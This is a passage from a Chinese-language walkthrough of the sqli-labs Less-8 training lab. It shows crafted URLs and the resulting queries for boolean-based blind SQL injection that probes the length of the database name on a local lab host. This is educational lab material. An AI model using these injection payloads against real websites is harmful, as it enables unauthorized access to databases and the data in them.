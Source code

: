 > 可能会有人有疑问，这个`SQL`后面下面怎么有个分号单列一行，这是因为上一行后面有一个`#`。`#`号会把后面的内容全部注释掉，执行的时候会忽略掉后面的内容，但`SQL`语句是以分号结尾的，所以在第二行单列了一个分号。
>
> 后续凡是涉及到该靶场均存在此问题，便不再重复赘述。

网站有返回

![](image/7.jpg)

再测试小于10

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C10%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<10#' LIMIT 0,1;
;
```

网站有返回

![](image/8.jpg)

然后测试小于8

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C8%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<8#' LIMIT 0,1;
;
```
